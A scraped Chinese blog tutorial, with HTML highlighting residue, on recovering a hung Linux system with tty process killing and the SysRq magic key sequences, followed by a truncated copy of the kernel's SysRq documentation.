class="line">233</span><br><span class="line">234</span><br><span class="line">235</span><br><span class="line">236</span><br><span class="line">237</span><br><span class="line">238</span><br><span class="line">239</span><br><span class="line">240</span><br><span class="line">241</span><br><span class="line">242</span><br><span class="line">243</span><br><span class="line">244</span><br><span class="line">245</span><br><span class="line">246</span><br><span class="line">247</span><br><span class="line">248</span><br><span class="line">249</span><br><span class="line">250</span><br><span class="line">251</span><br><span class="line">252</span><br><span class="line">253</span><br><span class="line">254</span><br><span class="line">255</span><br><span class="line">256</span><br><span class="line">257</span><br><span class="line">258</span><br><span class="line">259</span><br><span class="line">260</span><br><span class="line">261</span><br><span class="line">262</span><br><span class="line">263</span><br><span class="line">264</span><br><span class="line">265</span><br><span class="line">266</span><br><span class="line">267</span><br><span class="line">268</span><br><span class="line">269</span><br><span class="line">270</span><br><span class="line">271</span><br><span class="line">272</span><br><span class="line">273</span><br><span class="line">274</span><br><span class="line">275</span><br><span class="line">276</span><br><span class="line">277</span><br><span class="line">278</span><br><span class="line">279</span><br><span class="line">280</span><br><span class="line">281</span><br><span class="line">282</span><br></pre></td><td class="code"><pre><span class="line">from: https://rqsir.github.io/<span class="number">2019</span>/<span class="number">05</span>/<span class="number">02</span>/linux%E4%B8%AD%E7%<span class="number">9</span>A%<span class="number">84</span>SysRq%E9%AD%<span class="number">94</span>%E6%<span class="number">9</span>C%AF%E9%<span class="number">94</span>%AE/</span><br><span class="line">接触 SysRq 完全是一种巧合。由于平时手比较欠，总是冷不丁地就将 ubuntu 给整死机了，这要是在以前我大概是选择按下电源键重启了。但这样做的危害也是显而易见的，轻则数据丢失，重则系统直接挂掉重启一片黑。于是乎，我给自己告诫再三：死机切记不要暴力重启。</span><br><span class="line"></span><br><span class="line">linux 应对死机三步骤</span><br><span class="line">经过多方查阅与实践总结，我大致摸索出了如下应对系统死机的解决方案，流程如下：</span><br><span class="line">    如果死机是由 xwindow 等窗口程序引起的，如因为 gnome 导致的假死机，这时候可以按下 alt+F2 调出 gnome 运行窗口，接着输入 r 回车，来刷新 gnome。</span><br><span class="line">    如果第一步不奏效，可能是 xwindow 已经挂掉了，这时候可以选择进入 tty 终端。按下快捷键组合 ctrl+alt+F3 就进入了 tty3（类似的还可以进入 tty4、tty5 等）。这是一个类似 shell 的界面，在这里我们可以先通过 top 命令获取高 cpu 占用进程，再通过 pkill 进程名或者 kill <span class="number">-9</span> <span class="keyword">pid</span> 的方式杀死死锁进程。最后通过 ctrl+alt+F2 返回 xwindow 界面。</span><br><span class="line">    如果以上都无效，那大概率是系统定底层出现了问题，这时候就要祭出 SysRq 魔术键了。</span><br><span class="line">    SysRq 经常被称为 Magic System Request，它被定义为一系列按键组合。当系统因为某种原因已经停止对大部分正常服务的响应，但是系统仍然可以响应键盘的按键中断请求。在这种情况下，SysRq 的按键组合将发挥它的神奇作用。</span><br><span class="line">通过它，不但可以在保证磁盘数据安全的情况下重启一台挂起的服务器，避免数据丢失和重启后长时间的文件系统检查，还可以收集包括系统内存使用，CPU 任务处理，进程运行状态等系统运行信息，甚至还可能在无需重启的情况下挽回一台已经停止响应的服务器。</span><br><span class="line">启动 SysRq</span><br><span class="line"></span><br><span class="line">首先检查 SysRq 是否开启</span><br><span class="line"></span><br><span class="line">cat /<span class="keyword">proc</span>/sys/kernel/sysrq</span><br><span class="line"></span><br><span class="line">若输出为 0，则还未开启。可以通过<span class="title"> systcl</span> 命令开启<span class="title"> SysRq，命令如下：</span></span><br><span class="line"><span class="title"></span></span><br><span class="line"><span class="title">sudo</span> sysctl -w<span class="title"> kernel.sysrq=1</span></span><br><span class="line"><span class="title"></span></span><br><span class="line"><span class="title">由于以上操作只在本次开机运行时有效，为保证下次开机</span> SysRq 服务自动启用，需进行如下配置：</span><br><span class="line"></span><br><span class="line">编辑 /etc/sysctl.conf，添加如下一行内容 (或去掉其前注释)</span><br><span class="line"></span><br><span class="line">kernel.sysrq = 1</span><br><span class="line"></span><br><span class="line">常用<span class="title"> SysRq</span> 组合键</span><br><span class="line">R-E-I-S-U-B – 安全重启万精油</span><br><span class="line"></span><br><span class="line">R - 把键盘设置为<span class="title"> ASCII</span> 模式 (用于接收后面键盘输入)</span><br><span class="line"><span class="title">	SysRq:</span> Keyboard<span class="title"> mode</span> set<span class="title"> to</span> XLATE</span><br><span class="line">	</span><br><span class="line">E - 向除<span class="title"> init</span> 以外所有进程发送<span class="title"> SIGTERM</span> 信号 (让进程自己正常退出)</span><br><span class="line"><span class="title">	SysRq:</span> Terminate<span class="title"> All</span> Tasks</span><br><span class="line">	</span><br><span class="line">I - 向除<span class="title"> init</span> 以外所有进程发送<span class="title"> SIGKILL</span> 信号 (强制结束进程)</span><br><span class="line"><span class="title">	SysRq:</span> Kill<span class="title"> All</span> Tasks</span><br><span class="line">	</span><br><span class="line">S - 磁盘缓冲区同步</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Emergency</span> Sync</span><br><span class="line">	</span><br><span class="line">U - 重新挂载为只读模式</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Emergency</span> Remount<span class="title"> R/O</span></span><br><span class="line"><span class="title"></span>	</span><br><span class="line">B - 立即重启系统</span><br><span class="line"><span class="title">	SysRq:</span> Resetting</span><br><span class="line"></span><br><span class="line">由于系统环境与后台进程个数的不确定性，每一步按键操作执行完成所费时间无法确定。为保险起见，一般采用<span class="title"> R</span> – 1 秒 –<span class="title"> E</span> – 30 秒 –<span class="title"> I</span> – 10 秒 –<span class="title"> S</span> – 5 秒 –<span class="title"> U</span> – 5 秒 –<span class="title"> B，而不是一气呵成地按下这六个键。</span></span><br><span class="line"><span class="title">E-I-K</span> – 解决系统假死利器</span><br><span class="line"></span><br><span class="line">有时候系统的死机仅仅是因为个别进程过分消耗<span class="title"> cpu</span> 或内存等系统资源所引发的，这时候就没有必要非得重启来解决问题。我们需要做的就是找出 “幕后黑手”，结束掉该进程就行了。</span><br><span class="line"></span><br><span class="line">E - 向除<span class="title"> init</span> 以外所有进程发送<span class="title"> SIGTERM</span> 信号 (让进程自己正常退出)</span><br><span class="line"><span class="title">	SysRq:</span> Terminate<span class="title"> All</span> Tasks</span><br><span class="line">	</span><br><span class="line">I - 向除<span class="title"> init</span> 以外所有进程发送<span class="title"> SIGKILL</span> 信号 (强制结束进程)</span><br><span class="line"><span class="title">	SysRq:</span> Kill<span class="title"> All</span> Tasks</span><br><span class="line">	</span><br><span class="line">K - 结束与当前控制台相关的全部进程</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> SAK</span> </span><br><span class="line">	</span><br><span class="line">F - 人为触发<span class="title"> OOM</span> Killer (可选，除非可以确认是内存使用问题，尽量避免使用这个组合键)</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Manual</span> OOM<span class="title"> execution</span> </span><br><span class="line">	(OOM<span class="title"> Killer</span> 将根据各进程的内存处理情况选取最合适的“凶手”进程，并向其发送<span class="title"> SIGKILL</span> 信		号，中	止其运行。)</span><br><span class="line"></span><br><span class="line">M-P-T-W – 系统死机证据收集机</span><br><span class="line"></span><br><span class="line">SysRq 提供了<span class="title"> M-P-T-W</span> 序列，在恢复系统挂起之前，这是一个推荐执行的序列。它会记录下当前系统的内存使用情况，当前<span class="title"> CPU</span> 寄存器的状态，进程运行状态，以及所有<span class="title"> CPU</span> 及寄存器的状态。通过这些信息，可以对挂起的原因做粗略的分析。</span><br><span class="line"></span><br><span class="line">M - 打印内存使用信息</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Show</span> Memory</span><br><span class="line">	</span><br><span class="line">P - 打印当前<span class="title"> CPU</span> 寄存器信息</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Show</span> Regs</span><br><span class="line">	</span><br><span class="line">T - 打印进程列表</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Show</span> State</span><br><span class="line">	</span><br><span class="line">W - 打印<span class="title"> CPU</span> 信息</span><br><span class="line"><span class="title">	SysRq</span> :<span class="title"> Show</span> CPUs</span><br><span class="line"></span><br><span class="line">其它功能键组合</span><br><span class="line"></span><br><span class="line">H - 帮助</span><br><span class="line">	它显示了当前系统支持的所有<span class="title"> SysRq</span> 组合，所有的按键均用大写字母表示。</span><br><span class="line">	</span><br><span class="line">C - 触发<span class="title"> Crashdump</span></span><br><span class="line"><span class="title"></span>	更详细系统挂起的诊断和数据收集</span><br><span class="line">	</span><br><span class="line">N - 降低实时任务运行优化级</span><br><span class="line">	这对于由实时任务消耗<span class="title"> CPU</span> 引起的系统挂起会起到立竿见影的作用。</span><br><span class="line"></span><br><span class="line">查看<span class="title"> SysRq</span> 输出</span><br><span class="line"></span><br><span class="line">    输出到本地终端</span><br><span class="line"></span><br><span class="line"><span class="title">    SysRq</span> 默认会根据<span class="title"> console_loglevel</span> 输出到本地终端。只要<span class="title"> console_loglevel</span> 大于<span class="title"> default_message_loglevel，SysRq</span> 信息就会输出到本地控制台终端。</span><br><span class="line"></span><br><span class="line">    输出到<span class="title"> syslog</span></span><br><span class="line"><span class="title"></span></span><br><span class="line"><span class="title"></span>    根据<span class="title"> syslog</span> 的默认配置，SysRq 默认会记录到 /var/log/messages，并且这里记录的信息与</span><br><span class="line"><span class="title">    console_loglevel</span> 无关，基本是完整的。但是由于负责记录日志的<span class="title"> syslogd</span> 本身也是一个用户进程，在执行后面即将介绍的<span class="title"> SysRq-E,</span> SysRq-I 时也会被终结，这就意味着<span class="title"> syslog</span> 记录的信息在一定情况下将不再完整。</span><br><span class="line"></span><br><span class="line">    通过<span class="title"> netconsole</span> 输出</span><br><span class="line"></span><br><span class="line">    输出到串口终端</span><br><span class="line"></span><br><span class="line">附录 –<span class="title"> SysRq.txt</span></span><br><span class="line"><span class="title"></span></span><br><span class="line"><span class="title">Linux</span> Magic<span class="title"> System</span> Request<span class="title"> Key</span> Hacks</span><br><span class="line">Documentation<span class="title"> for</span> sysrq.c<span class="title"> version</span> 1.15</span><br><span class="line">Last<span class="title"> update:</span> $Date: 2001/01/28 10:15:59 $</span><br><span class="line">*<span class="title">  What</span> is<span class="title"> the</span> magic<span class="title"> SysRq</span> key?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">It<span class="title"> is</span> a 'magical'<span class="title"> key</span> combo<span class="title"> you</span> can<span class="title"> hit</span> which<span class="title"> the</span> kernel<span class="title"> will</span> respond<span class="title"> to</span></span><br><span class="line"><span class="title">regardless</span> of<span class="title"> whatever</span> else<span class="title"> it</span> is<span class="title"> doing,</span> unless<span class="title"> it</span> is<span class="title"> completely</span> locked<span class="title"> up.</span></span><br><span class="line"><span class="title">*</span> <span class="title"> How</span> do<span class="title"> I</span> enable<span class="title"> the</span> magic<span class="title"> SysRq</span> key?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">You<span class="title"> need</span> to<span class="title"> say</span> "yes"<span class="title"> to</span> 'Magic<span class="title"> SysRq</span> key (CONFIG_MAGIC_SYSRQ)'<span class="title"> when</span></span><br><span class="line"><span class="title">configuring</span> the<span class="title"> kernel.</span> When<span class="title"> running</span> a<span class="title"> kernel</span> with<span class="title"> SysRq</span> compiled<span class="title"> in,</span></span><br><span class="line"><span class="title">/proc/sys/kernel/sysrq</span> controls<span class="title"> the</span> functions<span class="title"> allowed</span> to<span class="title"> be</span> invoked<span class="title"> via</span></span><br><span class="line"><span class="title">the</span> SysRq<span class="title"> key.</span> By<span class="title"> default</span> the<span class="title"> file</span> contains 1<span class="title"> which</span> means<span class="title"> that</span> every</span><br><span class="line">possible<span class="title"> SysRq</span> request<span class="title"> is</span> allowed (in<span class="title"> older</span> versions<span class="title"> SysRq</span> was<span class="title"> disabled</span></span><br><span class="line"><span class="title">by</span> default,<span class="title"> and</span> you<span class="title"> were</span> required<span class="title"> to</span> specifically<span class="title"> enable</span> it<span class="title"> at</span> run-time</span><br><span class="line">but<span class="title"> this</span> is<span class="title"> not</span> the<span class="title"> case</span> any<span class="title"> more).</span> Here<span class="title"> is</span> the<span class="title"> list</span> of<span class="title"> possible</span> values</span><br><span class="line">in /<span class="keyword">proc</span>/sys/kernel/sysrq:</span><br><span class="line">   0 -<span class="title"> disable</span> sysrq<span class="title"> completely</span></span><br><span class="line"><span class="title"></span>   1 -<span class="title"> enable</span> all<span class="title"> functions</span> of<span class="title"> sysrq</span></span><br><span class="line"><span class="title"></span>  &gt;1 -<span class="title"> bitmask</span> of<span class="title"> allowed</span> sysrq<span class="title"> functions</span> (see<span class="title"> below</span> for<span class="title"> detailed</span> function</span><br><span class="line"><span class="title">       description):</span></span><br><span class="line"><span class="title"></span>          2 -<span class="title"> enable</span> control<span class="title"> of</span> console<span class="title"> logging</span> level</span><br><span class="line">          4 -<span class="title"> enable</span> control<span class="title"> of</span> keyboard (SAK,<span class="title"> unraw)</span></span><br><span class="line"><span class="title"></span>          8 -<span class="title"> enable</span> debugging<span class="title"> dumps</span> of<span class="title"> processes</span> etc.</span><br><span class="line">         16 -<span class="title"> enable</span> sync<span class="title"> command</span></span><br><span class="line"><span class="title"></span>         32 -<span class="title"> enable</span> remount<span class="title"> read-only</span></span><br><span class="line"><span class="title"></span>         64 -<span class="title"> enable</span> signalling<span class="title"> of</span> processes (term,<span class="title"> kill,</span> oom-kill)</span><br><span class="line">        128 -<span class="title"> allow</span> reboot/poweroff</span><br><span class="line">        256 -<span class="title"> allow</span> nicing<span class="title"> of</span> all<span class="title"> RT</span> tasks</span><br><span class="line">You<span class="title"> can</span> set<span class="title"> the</span> value<span class="title"> in</span> the<span class="title"> file</span> by<span class="title"> the</span> following<span class="title"> command:</span></span><br><span class="line"><span class="title"></span> <span class="title">   echo</span> "number" &gt;/<span class="keyword">proc</span>/sys/kernel/sysrq</span><br><span class="line">Note<span class="title"> that</span> the<span class="title"> value</span> of /<span class="keyword">proc</span>/sys/kernel/sysrq<span class="title"> influences</span> only<span class="title"> the</span> invocation</span><br><span class="line">via<span class="title"> a</span> keyboard.<span class="title"> Invocation</span> of<span class="title"> any</span> operation<span class="title"> via</span> /<span class="keyword">proc</span>/sysrq-trigger<span class="title"> is</span> always</span><br><span class="line">allowed.</span><br><span class="line">*<span class="title">  How</span> do<span class="title"> I</span> use<span class="title"> the</span> magic<span class="title"> SysRq</span> key?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">On<span class="title"> x86</span>   -<span class="title"> You</span> press<span class="title"> the</span> key<span class="title"> combo</span> 'ALT-SysRq-&lt;command<span class="title"> key&gt;'.</span> Note -<span class="title"> Some</span></span><br><span class="line"><span class="title"></span> <span class="title">          keyboards</span> may<span class="title"> not</span> have<span class="title"> a</span> key<span class="title"> labeled</span> 'SysRq'.<span class="title"> The</span> 'SysRq'<span class="title"> key</span> is</span><br><span class="line"><span class="title">           also</span> known<span class="title"> as</span> the 'Print<span class="title"> Screen'</span> key.<span class="title"> Also</span> some<span class="title"> keyboards</span> cannot</span><br><span class="line"><span class="title">	   handle</span> so<span class="title"> many</span> keys<span class="title"> being</span> pressed<span class="title"> at</span> the<span class="title"> same</span> time,<span class="title"> so</span> you<span class="title"> might</span></span><br><span class="line"><span class="title"></span>	<span class="title">   have</span> better<span class="title"> luck</span> with "press<span class="title"> Alt",</span> "press<span class="title"> SysRq",</span> "release<span class="title"> Alt",</span></span><br><span class="line"><span class="title"></span>	   "press &lt;command<span class="title"> key&gt;",</span> release<span class="title"> everything.</span></span><br><span class="line"><span class="title">On</span> SPARC -<span class="title"> You</span> press 'ALT-STOP-&lt;command<span class="title"> key&gt;',</span> I<span class="title"> believe.</span></span><br><span class="line"><span class="title">On</span> the<span class="title"> serial</span> console (PC<span class="title"> style</span> standard<span class="title"> serial</span> ports<span class="title"> only)</span> -</span><br><span class="line"><span class="title">           You</span> send<span class="title"> a</span> BREAK,<span class="title"> then</span> within 5<span class="title"> seconds</span> a<span class="title"> command</span> key.<span class="title"> Sending</span></span><br><span class="line"><span class="title"></span> <span class="title">          BREAK</span> twice<span class="title"> is</span> interpreted<span class="title"> as</span> a<span class="title"> normal</span> BREAK.</span><br><span class="line">On<span class="title"> PowerPC</span> -<span class="title"> Press</span> 'ALT -<span class="title"> Print</span> Screen (or<span class="title"> F13)</span> - &lt;command<span class="title"> key&gt;,</span>  </span><br><span class="line"><span class="title">             Print</span> Screen (or<span class="title"> F13)</span> - &lt;command<span class="title"> key&gt;</span> may<span class="title"> suffice.</span></span><br><span class="line"><span class="title">On</span> other -<span class="title"> If</span> you<span class="title"> know</span> of<span class="title"> the</span> key<span class="title"> combos</span> for<span class="title"> other</span> architectures,<span class="title"> please</span></span><br><span class="line"><span class="title"></span> <span class="title">          let</span> me<span class="title"> know</span> so<span class="title"> I</span> can<span class="title"> add</span> them<span class="title"> to</span> this<span class="title"> section.</span></span><br><span class="line"><span class="title">On</span> all -<span class="title">  write</span> a<span class="title"> character</span> to /<span class="keyword">proc</span>/sysrq-trigger.<span class="title">  eg:</span></span><br><span class="line"><span class="title"></span>	<span class="title">	echo</span> t &gt; /<span class="keyword">proc</span>/sysrq-trigger</span><br><span class="line">*<span class="title">  What</span> are<span class="title"> the</span> 'command'<span class="title"> keys?</span></span><br><span class="line"><span class="title">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span></span><br><span class="line"><span class="title">'r'</span>     -<span class="title"> Turns</span> off<span class="title"> keyboard</span> raw<span class="title"> mode</span> and<span class="title"> sets</span> it<span class="title"> to</span> XLATE.</span><br><span class="line">'k'     -<span class="title"> Secure</span> Access<span class="title"> Key</span> (SAK)<span class="title"> Kills</span> all<span class="title"> programs</span> on<span class="title"> the</span> current<span class="title"> virtual</span></span><br><span class="line"><span class="title"></span> <span class="title">         console.</span> NOTE:<span class="title"> See</span> important<span class="title"> comments</span> below<span class="title"> in</span> SAK<span class="title"> section.</span></span><br><span class="line"><span class="title">'b'</span>     -<span class="title"> Will</span> immediately<span class="title"> reboot</span> the<span class="title"> system</span> without<span class="title"> syncing</span> or<span class="title"> unmounting</span></span><br><span class="line"><span class="title"></span> <span class="title">         your</span> disks.</span><br><span class="line">'c'	-<span class="title"> Will</span> perform<span class="title"> a</span> kexec<span class="title"> reboot</span> in<span class="title"> order</span> to<span class="title"> take</span> a<span class="title"> crashdump.</span></span><br><span class="line"><span class="title">'o'</span>     -<span class="title"> Will</span> shut<span class="title"> your</span> system<span class="title"> off</span> (if<span class="title"> configured</span> and<span class="title"> supported).</span></span><br><span class="line"><span class="title">'s'</span>     -<span class="title"> Will</span> attempt<span class="title"> to</span> sync<span class="title"> all</span> mounted<span class="title"> filesystems.</span></span><br><span class="line"><span class="title">'u'</span>     -<span class="title"> Will</span> attempt<span class="title"> to</span> remount<span class="title"> all</span> mounted<span class="title"> filesystems</span> read-only.</span><br><span class="line">'p'     -<span class="title"> Will</span> dump<span class="title"> the</span> current<span class="title"> registers</span> and<span class="title"> flags</span> to<span class="title"> your</span> console.</span><br><span class="line">'t'     -<span class="title"> Will</span> dump<span class="title"> a</span> list<span class="title"> of</span> current<span class="title"> tasks</span> and<span class="title"> their</span> information<span class="title"> to</span> your</span><br><span class="line"><span class="title">          console.</span></span><br><span class="line"><span class="title">'m'</span>     -<span class="title"> Will</span> dump<span class="title"> current</span> memory<span class="title"> info</span> to<span class="title"> your</span> console.</span><br><span class="line">'v'	-<span class="title"> Dumps</span> Voyager<span class="title"> SMP</span> processor<span class="title"> info</span> to<span class="title"> your</span> console.</span><br><span class="line">'0'-'9' -<span class="title"> Sets</span> the<span class="title"> console</span> log<span class="title"> level,</span> controlling<span class="title"> which</span> kernel<span class="title"> messages</span></span><br><span class="line"><span class="title"></span> <span class="title">         will</span> be<span class="title"> printed</span> to<span class="title"> your</span> console. ('0',<span class="title"> for</span> example<span class="title"> would</span> make</span><br><span class="line"><span class="title">          it</span> so<span class="title"> that</span> only<span class="title"> emergency</span> messages<span class="title"> like</span> PANICs<span class="title"> or</span> OOPSes<span class="title"> would</span></span><br><span class="line"><span class="title"></span> <span class="title">         make</span> it<span class="title"> to</span> your<span class="title"> console.)</span></span><br><span class="line"><span class="title">'f'</span>	-<span class="title"> Will</span> call<span class="title"> oom_kill</span> to<span class="title"> kill</span> a<span class="title"> memory</span> hog<span class="title"> process</span></span><br><span class="line"><span class="title">'e'</span>     -<span class="title"> Send</span> a<span class="title"> SIGTERM</span> to<span class="title"> all</span> processes,<span class="title"> except</span> for<span class="title"> init.</span></span><br><span class="line"><span class="title">'i'</span>     -<span class="title"> Send</span> a<span class="title"> SIGKILL</span> to<span class="title"> all</span> processes,<span class="title"> except</span> for<span class="title"> init.</span></span><br><span class="line"><span class="title">'l'</span>     -<span class="title"> Send</span> a<span class="title"> SIGKILL</span> to<span class="title"> all</span> processes,<span class="title"> INCLUDING</span> init. (Your<span class="title"> system</span></span><br><span class="line"><span class="title"></span> <span class="title">         will</span> be<span class="title"> non-functional</span> after<span class="title"> this.)</span></span><br><span class="line"><span class="title">'h'</span>     -<span class="title"> Will</span> display<span class="title"> help</span> (<span class="title"> actually</span> any<span class="title"> other</span> key<span class="title"> than</span> those<span class="title"> listed</span></span><br><span class="line"><span class="title"></span> <span class="title">         above</span> will<span class="title"> display</span> help.<span class="title"> but</span> 'h'<span class="title"> is</span> easy<span class="title"> to</span> remember :-)</span><br><span class="line">*<span class="title">  Okay,</span> so<span class="title"> what</span> can<span class="title"> I</span> use<span class="title"> them</span> for?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">Well,<span class="title"> un'R'aw</span> is<span class="title"> very</span> handy<span class="title"> when</span> your<span class="title"> X</span> server<span class="title"> or</span> a<span class="title"> svgalib</span> program<span class="title"> crashes.</span></span><br><span class="line"><span class="title">sa'K'</span> (Secure<span class="title"> Access</span> Key)<span class="title"> is</span> useful<span class="title"> when</span> you<span class="title"> want</span> to<span class="title"> be</span> sure<span class="title"> there</span> are<span class="title"> no</span></span><br><span class="line"><span class="title">trojan</span> program<span class="title"> is</span> running<span class="title"> at</span> console<span class="title"> and</span> which<span class="title"> could</span> grab<span class="title"> your</span> password</span><br><span class="line">when<span class="title"> you</span> would<span class="title"> try</span> to<span class="title"> login.</span> It<span class="title"> will</span> kill<span class="title"> all</span> programs<span class="title"> on</span> given<span class="title"> console</span></span><br><span class="line"><span class="title">and</span> thus<span class="title"> letting</span> you<span class="title"> make</span> sure<span class="title"> that</span> the<span class="title"> login</span> prompt<span class="title"> you</span> see<span class="title"> is</span> actually</span><br><span class="line">the<span class="title"> one</span> from<span class="title"> init,</span> not<span class="title"> some</span> trojan<span class="title"> program.</span></span><br><span class="line"><span class="title">IMPORTANT:In</span> its<span class="title"> true</span> form<span class="title"> it</span> is<span class="title"> not</span> a<span class="title"> true</span> SAK<span class="title"> like</span> the<span class="title"> one</span> in   :IMPORTANT</span><br><span class="line">IMPORTANT:c2<span class="title"> compliant</span> systems,<span class="title"> and</span> it<span class="title"> should</span> be<span class="title"> mistook</span> as<span class="title"> such.</span> :IMPORTANT</span><br><span class="line"><span class="title">       It</span> seems<span class="title"> other</span> find<span class="title"> it</span> useful<span class="title"> as</span> (System<span class="title"> Attention</span> Key)<span class="title"> which</span> is</span><br><span class="line">useful<span class="title"> when</span> you<span class="title"> want</span> to<span class="title"> exit</span> a<span class="title"> program</span> that<span class="title"> will</span> not<span class="title"> let</span> you<span class="title"> switch</span> consoles.</span><br><span class="line">(For<span class="title"> example,</span> X<span class="title"> or</span> a<span class="title"> svgalib</span> program.)</span><br><span class="line">re'B'oot<span class="title"> is</span> good<span class="title"> when</span> you're<span class="title"> unable</span> to<span class="title"> shut</span> down.<span class="title"> But</span> you<span class="title"> should</span> also 'S'ync</span><br><span class="line">and 'U'mount<span class="title"> first.</span></span><br><span class="line"><span class="title">'C'rashdump</span> can<span class="title"> be</span> used<span class="title"> to</span> manually<span class="title"> trigger</span> a<span class="title"> crashdump</span> when<span class="title"> the</span> system<span class="title"> is</span> hung.</span><br><span class="line">The<span class="title"> kernel</span> needs<span class="title"> to</span> have<span class="title"> been</span> built<span class="title"> with</span> CONFIG_KEXEC<span class="title"> enabled.</span></span><br><span class="line"><span class="title">'S'ync</span> is<span class="title"> great</span> when<span class="title"> your</span> system<span class="title"> is</span> locked<span class="title"> up,</span> it<span class="title"> allows</span> you<span class="title"> to</span> sync<span class="title"> your</span></span><br><span class="line"><span class="title">disks</span> and<span class="title"> will</span> certainly<span class="title"> lessen</span> the<span class="title"> chance</span> of<span class="title"> data</span> loss<span class="title"> and</span> fscking.<span class="title"> Note</span></span><br><span class="line"><span class="title">that</span> the<span class="title"> sync</span> hasn't<span class="title"> taken</span> place<span class="title"> until</span> you<span class="title"> see</span> the "OK"<span class="title"> and</span> "Done"<span class="title"> appear</span></span><br><span class="line"><span class="title">on</span> the<span class="title"> screen.</span> (If<span class="title"> the</span> kernel<span class="title"> is</span> really<span class="title"> in</span> strife,<span class="title"> you</span> may<span class="title"> not</span> ever<span class="title"> get</span> the</span><br><span class="line">OK<span class="title"> or</span> Done<span class="title"> message...)</span></span><br><span class="line"><span class="title">'U'mount</span> is<span class="title"> basically</span> useful<span class="title"> in</span> the<span class="title"> same</span> ways<span class="title"> as</span> 'S'ync.<span class="title"> I</span> generally 'S'ync,</span><br><span class="line">'U'mount,<span class="title"> then</span> re'B'oot<span class="title"> when</span> my<span class="title"> system</span> locks.<span class="title"> It's</span> saved<span class="title"> me</span> many<span class="title"> a</span> fsck.</span><br><span class="line">Again,<span class="title"> the</span> unmount (remount<span class="title"> read-only)</span> hasn't<span class="title"> taken</span> place<span class="title"> until</span> you<span class="title"> see</span> the</span><br><span class="line">"OK"<span class="title"> and</span> "Done"<span class="title"> message</span> appear<span class="title"> on</span> the<span class="title"> screen.</span></span><br><span class="line"><span class="title">The</span> loglevel'0'-'9'<span class="title"> is</span> useful<span class="title"> when</span> your<span class="title"> console</span> is<span class="title"> being</span> flooded<span class="title"> with</span></span><br><span class="line"><span class="title">kernel</span> messages<span class="title"> you</span> do<span class="title"> not</span> want<span class="title"> to</span> see.<span class="title"> Setting</span> '0'<span class="title"> will</span> prevent<span class="title"> all</span> but</span><br><span class="line">the<span class="title"> most</span> urgent<span class="title"> kernel</span> messages<span class="title"> from</span> reaching<span class="title"> your</span> console. (They<span class="title"> will</span></span><br><span class="line"><span class="title">still</span> be<span class="title"> logged</span> if<span class="title"> syslogd/klogd</span> are<span class="title"> alive,</span> though.)</span><br><span class="line">t'E'rm<span class="title"> and</span> k'I'll<span class="title"> are</span> useful<span class="title"> if</span> you<span class="title"> have</span> some<span class="title"> sort</span> of<span class="title"> runaway</span> process<span class="title"> you</span></span><br><span class="line"><span class="title">are</span> unable<span class="title"> to</span> kill<span class="title"> any</span> other<span class="title"> way,</span> especially<span class="title"> if</span> it's<span class="title"> spawning</span> other</span><br><span class="line">processes.</span><br><span class="line">*<span class="title">  Sometimes</span> SysRq<span class="title"> seems</span> to<span class="title"> get</span> 'stuck'<span class="title"> after</span> using<span class="title"> it,</span> what<span class="title"> can</span> I<span class="title"> do?</span></span><br><span class="line"><span class="title">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span></span><br><span class="line"><span class="title">That</span> happens<span class="title"> to</span> me,<span class="title"> also.</span> I've<span class="title"> found</span> that<span class="title"> tapping</span> shift,<span class="title"> alt,</span> and<span class="title"> control</span></span><br><span class="line"><span class="title">on</span> both<span class="title"> sides</span> of<span class="title"> the</span> keyboard,<span class="title"> and</span> hitting<span class="title"> an</span> invalid<span class="title"> sysrq</span> sequence<span class="title"> again</span></span><br><span class="line"><span class="title">will</span> fix<span class="title"> the</span> problem. (ie,<span class="title"> something</span> like<span class="title"> alt-sysrq-z).</span> Switching<span class="title"> to</span> another</span><br><span class="line">virtual<span class="title"> console</span> (ALT+Fn)<span class="title"> and</span> then<span class="title"> back</span> again<span class="title"> should</span> also<span class="title"> help.</span></span><br><span class="line"><span class="title">*</span> <span class="title"> I</span> hit<span class="title"> SysRq,</span> but<span class="title"> nothing</span> seems<span class="title"> to</span> happen,<span class="title"> what's</span> wrong?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">There<span class="title"> are</span> some<span class="title"> keyboards</span> that<span class="title"> send</span> different<span class="title"> scancodes</span> for<span class="title"> SysRq</span> than<span class="title"> the</span></span><br><span class="line"><span class="title">pre-defined</span> 0x54.<span class="title"> So</span> if<span class="title"> SysRq</span> doesn't<span class="title"> work</span> out<span class="title"> of</span> the<span class="title"> box</span> for<span class="title"> a</span> certain</span><br><span class="line">keyboard,<span class="title"> run</span> 'showkey -s'<span class="title"> to</span> find<span class="title"> out</span> the<span class="title"> proper</span> scancode<span class="title"> sequence.</span> Then</span><br><span class="line">use 'setkeycodes &lt;sequence&gt; 84'<span class="title"> to</span> define<span class="title"> this</span> sequence<span class="title"> to</span> the<span class="title"> usual</span> SysRq</span><br><span class="line">code (84<span class="title"> is</span> decimal<span class="title"> for</span> 0x54).<span class="title"> It's</span> probably<span class="title"> best</span> to<span class="title"> put</span> this<span class="title"> command</span> in<span class="title"> a</span></span><br><span class="line"><span class="title">boot</span> script.<span class="title"> Oh,</span> and<span class="title"> by</span> the<span class="title"> way,</span> you<span class="title"> exit</span> 'showkey'<span class="title"> by</span> not<span class="title"> typing</span> anything</span><br><span class="line">for<span class="title"> ten</span> seconds.</span><br><span class="line">*<span class="title">  I</span> want<span class="title"> to</span> add<span class="title"> SysRQ</span> key<span class="title"> events</span> to<span class="title"> a</span> module,<span class="title"> how</span> does<span 